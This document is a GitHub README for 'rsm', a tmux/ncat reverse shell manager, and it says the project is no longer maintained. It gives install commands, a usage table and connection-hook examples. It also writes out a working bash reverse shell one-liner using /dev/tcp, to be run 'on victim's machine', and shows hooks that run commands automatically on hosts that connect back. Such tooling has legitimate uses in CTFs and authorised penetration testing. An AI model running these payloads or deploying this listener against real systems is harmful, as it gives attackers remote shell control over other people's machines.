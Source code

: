 # Notice

**I will not maintain this repo from now on.** I have developed a new alternative with significant improvements over this project. Please refer to [this new `rsm` script](https://github.com/djosix/RaaS/blob/main/rsm.py).

## Introduction

A simple reverse shell manager using `tmux` and `ncat`.

## Install

```shell
BIN_PATH=/usr/local/bin/rsm
curl -o "$BIN_PATH" https://raw.githubusercontent.com/djosix/rsm/master/rsm
chmod +x "$BIN_PATH"
```

If the bash script is not working you can try Python version (translated by gpt-o1-preview)

```shell
BIN_PATH=/usr/local/bin/rsm
curl -o "$BIN_PATH" https://raw.githubusercontent.com/djosix/rsm/master/rsm.py
chmod +x "$BIN_PATH"
```

## Quick Start

1. Listen on a port and attach to rsm tmux session:
    ```shell
    rsm 14641
    ```
    > `rsm` creates it's own tmux socket, so it will not mess up with your default tmux sessions.

2. On victim's machine, launch a reverse shell:
    ```shell
    bash -c 'bash -i >& /dev/tcp/127.0.0.1/14641 0<&1'
    ```
3. Once it connects back to the `rsm` port, `rsm` will create a new tmux window to handle the TCP connection. You can simply switch to that window and start typing commands.

## Usage

`$ rsm --help`

```
Usage: COMMAND [OPTIONS]
Commands:
    rsm PORT            Start a reverse shell listener on PORT
    rsm d[etached] PORT Start a detached reverse shell listener on PORT
    rsm l[ist]          List active rsm listeners
    rsm i[nfo] PORT     Show details of listener on PORT
    rsm i[nfo]          Show details of all rsm listeners
    rsm s[top] PORT     Stop a rsm listener on PORT
    rsm s[top]          Stop all rsm listeners
    rsm a[ttach] PORT   Attach to a rsm session listening on PORT
    rsm a[ttach]        Attach to the last rsm session
    rsm c[lean] PORT    Clean sockets for PORT
    rsm c[lean]         Clean all sockets
    rsm h[elp]          Show this help message
Options:
    -d, --dir DIR       Where the rsm sockets be stored (default: /tmp/.rsm)
    -n, --max-conn N    Maximum number of connections (default: 128)
    -r, --max-recv N    Maximum receiving MB (default: 64)
    -c, --hook CMD      Command to eval when a client connects
    -w, --with CMD      Command to eval when rsm starts
    --ncat-flags FLAGS  Additional command line flags for ncat
    --tmux-flags FLAGS  Additional command line flags for tmux
    -h, --help          Show this help message
```

## Connection Hooks

You are able to run custom command to handle a client connection:

```shell
rsm detached 12345 --hook 'echo "Hello, you are from ${IP}:${PORT}!"; exit'

ncat 127.0.0.1 12345
# Hello, you are from 127.0.0.1:50920!
```

With this feature, you can run commands automatically when a reverse shell connects back:

```shell
rsm detached 12345 --hook "echo 'echo SomeContent > \$HOME/SomeFile; exit'; exit"

bash -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0<&1'
cat ~/SomeFile # SomeContent
```
